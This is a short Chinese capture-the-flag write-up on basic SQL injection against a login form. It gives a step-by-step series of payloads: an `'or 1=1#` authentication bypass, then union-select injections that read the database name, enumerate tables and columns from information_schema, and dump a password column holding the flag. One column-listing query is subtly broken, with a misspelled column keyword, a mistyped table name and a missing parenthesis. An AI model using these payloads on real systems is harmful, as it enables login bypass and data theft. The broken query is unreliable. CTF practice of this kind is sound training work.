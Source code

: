 # sql注入基础

首先在password中构造万能语句：
```
admin'or 1=1#
```
可以看到admin的密码，要多尝试字符，看是什么闭合，这里是单引号闭合

然后使用
```
admin' union select 1,2,3#
```
找到返回数据显示的位置

然后构造联合注入语句

首先使用
```
admin' union select 1,(select database()),3#
```
找出当前使用数据库的名字


然后使用
```
admin' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3#
```
查看数据表，看到有两张表，分别为geekuser和IOve1ysq1

然后查看两张表的字段的信息，发现flag在IOve1ysq1的password中
```
admin' union select 1,(select group_concat(columns_name) from information_schema.columns where table_schema=database() and table_name='IOve1sq1'#
```
```
admin' union select 1,2,group_concat(password) from IOve1ysq1#
```

可以看见flag


